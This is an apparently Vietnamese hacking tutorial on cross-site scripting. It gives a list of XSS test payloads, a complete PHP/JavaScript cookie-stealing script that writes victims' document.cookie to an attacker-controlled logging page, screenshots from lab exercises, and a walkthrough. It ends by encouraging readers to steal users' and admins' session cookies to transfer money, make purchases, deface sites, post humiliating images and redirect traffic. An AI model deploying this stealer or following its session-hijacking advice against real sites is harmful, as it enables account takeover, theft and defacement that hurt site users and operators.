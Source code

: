 # A3-Cross-Site Scripting (XSS)

- **[ khái quát về xss](#1)
- **[ các đoạn js truyền vào để check lỗi](#2)
- **[ thực hành trên lab](#3)
- **[ Cách tấn công và hạ gục 1 trang web bằng xss](#4)

<a name="1"></a>
## khái quát
XSS được viết tắt bởi Cross-Site-Scripting. Nó là một phương pháp tấn công cơ bản. Nó dựa trên việc thực thi HTML và JavaScript trên một trang web. Việc tấn công này có thể xảy ra khi xác nhận những lệnh ở các text-box, hoặc cũng có thể là trên thanh URL. Những kết quả được đọc dưới dạng HTML, vì vậy nó sử dụng một vài thủ thuật Social-Engineering để tác động đến 1 ai đó tải một virus mà chính bạn đã tạo ra, và là tiềm năng cho một botnet, hoặc RAT, cũng có thể là 1 keylogger. XSS có thể trở nên rất nguy hiểm, Nhưng cũng có thể rất vô hại.
### gồm 3 loại
- STORED-XSS :  chèn đoạn js thông qua lưu trữ , vd gửi tn đến admin

-  REFLECTED-XSS: Khác với Stored-XSS, Reflected-XSS đoạn mã khai thác sẽ không được lưu trữ trên server , chèn js vào mục tìm kiến hay cmt...

- xss dom based : chưa nắm rõ
<a name="2"></a>

## các đoạn mã check lỗi:tham khảo tại [đây](https://www.youtube.com/watch?v=Iu3QtMy9cpg&index=2&list=PL1A2CSdiySGIRec2pvDMkYNi3iRO89Zot#t=1.464711)
```

"><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83)) </script>
'><script>alert("XSS")</script>
'><script>alert(String.fromCharCode(88,83,83))</script>
<ScRIPt>aLeRT("XSS")</ScRIPt>
<ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
"><ScRIPt>aLeRT("XSS")</ScRIPt>
"><ScRIPt<aLeRT(String.fromCharCode(88,83,83)) </ScRIPt>
'><ScRIPt>aLeRT("XSS")</ScRIPt>
'><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
</script><script>alert("XSS")</script>
</script><script>alert(String.fromCharCode(88,83,83) )</script>
"/><script>alert("XSS")</script>
"/><script>alert(String.fromCharCode(88,83,83))</script>
'/><script>alert("XSS")</script>
'/><script>alert(String.fromCharCode(88,83,83))</script>
</SCRIPT>"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>"><SCRIPT>alert(String.fromCharCode(88,83,8 3))
</SCRIPT>">"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83 ,83))</SCRIPT>
";alert("XSS");"
";alert(String.fromCharCode(88,83,83));"
';alert("XSS");'
';alert(String.fromCharCode(88,83,83));'
";alert("XSS")
";alert(String.fromCharCode(88,83,83))
';alert("XSS")
';alert(String.fromCharCode(88,83,83))

```
 - đoạn PHP get cookie
 
 ```
 <?php
/*
* Created on 16. april. 2007 Được tạo ngày 16/8/2007
* Created by Audun Larsen (audun@munio.no)- Tác giả-
*
* Copyright 2006 Munio IT, Audun Larsen
*
* THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR IMPLIED WARRANTIES,
* INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
* FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE AUTHOR OR CONTRIBUTORS BE LIABLE
* FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
* (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS;
* OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
* OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE,
* EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

if(strlen($_SERVER['QUERY_STRING']) > 0) {
$fp=fopen('./CookieLog.txt', 'a');
fwrite($fp, urldecode($_SERVER['QUERY_STRING'])."\n");
fclose($fp);
} else {
?>

var ownUrl = 'http://<?php echo $_SERVER['HTTP_HOST']; ?><?php echo $_SERVER['PHP_SELF']; ?>';

// ==
// URLEncode and URLDecode functions
//
// Copyright Albion Research Ltd. 2002
// http://www.albionresearch.com/
//
// You may copy these functions providing that
// (a) you leave this copyright notice intact, and
// (b) if you use these functions on a publicly accessible
// web site you include a credit somewhere on the web site
// with a link back to http://www.albionresearch.com/
//
// If you find or fix any bugs, please let us know at albionresearch.com
//
// SpecialThanks to Neelesh Thakur for being the first to
// report a bug in URLDecode() - now fixed 2003-02-19.
// And thanks to everyone else who has provided comments and suggestions.
// ==
function URLEncode(str)
{
// The Javascript escape and unescape functions do not correspond
// with what browsers actually do...
var SAFECHARS = "0123456789" + // Numeric
"ABCDEFGHIJKLMNOPQRSTUVWXYZ" + // Alphabetic
"abcdefghijklmnopqrstuvwxyz" +
"-_.!~*'()"; // RFC2396 Mark characters
var HEX = "0123456789ABCDEF";

var plaintext = str;
var encoded = "";
for (var i = 0; i < plaintext.length; i++ ) {
var ch = plaintext.charAt(i);
if (ch == " ") {
encoded += "+"; // x-www-urlencoded, rather than %20
} else if (SAFECHARS.indexOf(ch) != -1) {
encoded += ch;
} else {
var charCode = ch.charCodeAt(0);
if (charCode > 255) {
alert( "Unicode Character '"
+ ch
+ "' cannot be encoded using standard URL encoding.\n" +
"(URL encoding only supports 8-bit characters.)\n" +
"A space (+) will be substituted." );
encoded += "+";
} else {
encoded += "%";
encoded += HEX.charAt((charCode >> 4) & 0xF);
encoded += HEX.charAt(charCode & 0xF);
}
}
} // for

return encoded;
};

cookie = URLEncode(document.cookie);
html = '<img src="'+ownUrl+'?'+cookie+'">';
document.write(html);

< ?php
}
?>
``` 
<a name="3"></a>
## lab 

**XSS - Reflected (GET),XSS - Reflected (POST)**
<img src="http://image.prntscr.com/image/c5611150478940c799cc3e47046a8965.png">

**XSS - Reflected (JSON)** chú ý , câu lệnh mở đầu để đóng cho phù hợp, ;`prompt("hiện khung nhập")`
<img src="http://image.prntscr.com/image/01053693841144838dff6e57136cd5be.png">

**XSS - Stored (User-Agent)**

<img src="http://image.prntscr.com/image/d26603cff35b44dda6efe9c057ce7b68.png">


<a name="4"></a>

## cách tấn công và hạ gục 1 trang web bằng xss!( thực ra chỉ check lỗi thôi :trollface: )

**B1** check lỗi: thưởng thì mình hay nhập `<xss>` để kiểm tra :

<img src="http://image.prntscr.com/image/16a6b9342eab4ea6a14ae64ea17578b7.png">

trong trường hợp này từ khóa tìm kiếm được đưa vào tất cả , không bị lọc hay mã hóa gì cả ! mình khẳng định 99,69% bị dính xss! 

**B2** nhập 1 đoạn script huyền cmn thoại! `<script>alert("xss")</script`

<img src="http://image.prntscr.com/image/8940ce62ade34bc28dfc70c71588a9fa.png">

  trời địu ! sao nó méo nhảy ra bảng thông báo xss, đờ mờ , té thôi ! đấy nếu là người khác thì người ta sẽ nghĩ thế , còn mình thì không . mình liền kiểm tra source của nó ,

  <img src="http://image.prntscr.com/image/a73a3645d3c942be80138b9eb713054c.png">

   ở đây trước đoạn js có 1 thẻ title á đìu , vậy chỉ cần đóng thẻ đó lại và truyền js vào thôi!

  **B3** tuyệt chiêu kết thúc nó!
  <img src="http://image.prntscr.com/image/050d3eb04a9b4ceb91bf0c45298cd763.png">

  headshot! :v 

  kiểm tra thử cookie nào 

  <img src="http://image.prntscr.com/image/047f93d1296443ef8e35d898bdbb33d5.png">

  **B4** bạn có thể làm gì khi thấy 1 site dính xss!( cái này theo ý nghĩ của mình)
 
  - chiếm quyền đăng nhập , bằng cách chèn vào 1 đoạn script lấy cookie của người dùng, sau đó đăng nhập dưới danh nghĩa người dùng và làm chuyện ấy :trollface: ( chuyển tiền , mua hàng ...)

  - hoặc đơn giản hơn , lấy cookie thằng admin , thằng này phải đem ra xử bắn đầu tiên khi site dính lỗi! sau khi lấy cookie và đăng nhập với tư cách admin , bạn có để deface web của nó , post clip 69, ảnh nude thằng ad( khuyến khích=)) ), 

  - và đơn giản hơn , chèn 1 đoạn chuyển hướng về web của bạn , tăng lượt view, =))

  ** đặc biệt , tất cả cách trên đều phải gửi đoạn js cho người dùng hoặc thằng ad, cách tấn công này gọi là `REFLECTED-XSS` **

